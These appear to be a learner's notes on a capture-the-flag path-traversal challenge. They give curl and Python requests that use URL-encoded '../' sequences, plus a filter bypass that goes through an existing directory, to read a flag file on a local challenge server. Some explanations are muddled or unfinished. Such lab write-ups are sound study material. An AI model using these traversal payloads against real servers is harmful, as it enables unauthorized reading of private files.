 Path Traversal

###### **Path Traversal using curl**
`curl -v http://challenge.localhost/%2e%2e/%2e%2e/flag`

![[Pasted image 20241102094045.png]]
Can be written in python as:
```python
flag = requests.get("http://challenge.localhost/%2e%2e/%2e%2e/flag")
flag.text
```

Previous web server's code prevented the use of dot characters (ex. ..).
Here the web server 
This Server's source code shows it also is stripping "/", so further URL encoding is needed. 
![[server code.png]]
Sometimes, you can "fool" the filter by starting with a valid path segment that exists in the server and then doing traversal after that. With knowledge of the current directory and its contents we can manipulate the request by moving into the fortunes directory.
```
curl -v http://challenge.localhost/fortunes%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2fflag
```
- `%2e` is the URL-encoded representation of `.` (a single dot).
- `%2f` is the URL-encoded representation of `/` (a forward slash).
- When combined, `%2e%2e%2f` translates to `../`, which is the standard notation for moving up one directory in most file systems.
- In this example we move from 'challenge/files' into '/fortunes', then traversing using URL encoding to the location of the flag and running the file. 
- the flag file is ran using the command ./flag with encoding as shown in the servers HTTP request. 
![[Pasted image 20241102125054.png]]

